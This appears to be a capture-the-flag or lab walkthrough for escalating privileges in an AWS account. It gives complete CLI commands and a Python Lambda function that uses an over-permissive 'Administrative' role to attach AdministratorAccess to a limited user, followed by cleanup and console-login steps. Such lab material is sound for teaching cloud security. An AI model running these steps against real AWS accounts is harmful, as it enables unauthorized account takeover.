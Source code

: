 # Solutions / Walk through

Lets start off by viewing what permissions are attached to our user.

Run the following commands while authenticated as demo.

```sh
aws iam list-attached-user-policies --user-name demo

aws iam list-user-policies --user-name demo
```

The first command lists existing policies managed by aws and your account. While the seconds lists inline policies that only exist for the object they are attached too.

It looks like we have full lambda permissions: `arn:aws:iam::aws:policy/AWSLambda_FullAccess`

Lets see what roles exist that we can use on our lambda.

```sh
aws iam list-roles
```

It seems that there is a role that we can use: `Administrative`

```sh
aws iam get-role --role-name Administrative

aws iam list-attached-role-policies --role-name Administrative
```

The roles has administrator permissions and can be used on lambda functions, lets pivot from this.

```json
"AssumeRolePolicyDocument": {
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Service": "lambda.amazonaws.com"
            },
            "Action": "sts:AssumeRole"
        }
    ]
},
```

Lets create a lambda a lambda function and use the role that have admin.

Put the following code into a file (*main.py*).

```py
import boto3

def lambda_handler(event, lambda_context):
    iam = boto3.resource('iam')
    user = iam.User('demo')
    response = user.attach_policy( PolicyArn = 'arn:aws:iam::aws:policy/AdministratorAccess' )
    print(response)
```

Replace ***0123456789*** with your account id from the terraform output.

```sh
vim main.py

zip -u code.zip main.py

aws lambda create-function --function-name demo --runtime python3.9 --role arn:aws:iam::0123456789:role/Administrative --zip-file fileb://code.zip --handler main.lambda_handler
```

Lets now invoke the function to update our permissions.

```sh
aws lambda invoke --function-name demo file.out
```

We can now attach admin permissions to the demo user.

```sh
aws iam list-attached-user-policies --user-name demo
```

The demo user now has administrator permissions in this aws account. ◻

## Cleanup

Lets remove what we created and then let terraform do the rest.

```sh
aws lambda delete-function --function-name demo

aws iam detach-user-policy --user-name demo --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

rm main.py code.zip file.out
```

## AWS Console

All of the following can be done in the web console as well.

Run the following command.

```sh
aws iam create-login-profile --user-name demo --password 'My!User1Login8P@ssword'
```

Navigate to [console.aws.amazon.com](console.aws.amazon.com) choose IAM login, account id is in the terraform output [*account_id*], username is **demo** and password is **My!User1Login8P@ssword**
